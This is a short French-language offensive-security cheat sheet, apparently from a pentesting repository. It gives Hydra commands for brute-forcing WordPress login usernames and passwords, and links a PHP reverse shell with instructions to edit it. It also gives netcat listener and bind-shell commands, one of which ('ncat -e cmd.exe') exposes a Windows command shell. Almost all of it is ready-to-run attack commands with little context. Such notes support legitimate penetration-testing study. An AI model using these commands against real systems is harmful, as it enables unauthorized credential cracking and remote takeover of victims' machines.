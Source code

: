 # Brute Force
## Hydra
- Permet d’obtenir le nom d'utilisateur avec un dictionnaire :
``` ZSH
sudo hydra -L <Dictionnaire> -p <mot de passe> <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

- Permet d’obtenir le mot de passe d'un utilisateur :
``` ZSH
sudo hydra -l <Username> -P <Dictionnaire> <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```


# Installation de la Payload
Sites web : 
- https://packetstormsecurity.com/ 
- https://pentestmonkey.net/

## Reverse Shell PHP
Télécharger le reverse Shell PHP : https://pentestmonkey.net/tools/web-shells/php-reverse-shell 
Puis changer les lignes 49 et 50

# C&C
## Netcat

### Listener

```bash
nc -nlvp 666
```

| arg | description |
| ---- | ---- |
| l | listener |
| n | pas de resolution de nom |
| v | verbose |
| p | port |
### Bind Shell 
L'attaquant initie la connexion à la victime
Victime :
- Linux :
```bash
nc -nlvp 666
```
- Windows :
```powershell
ncat -nlvp 666 -e cmd.exe
```

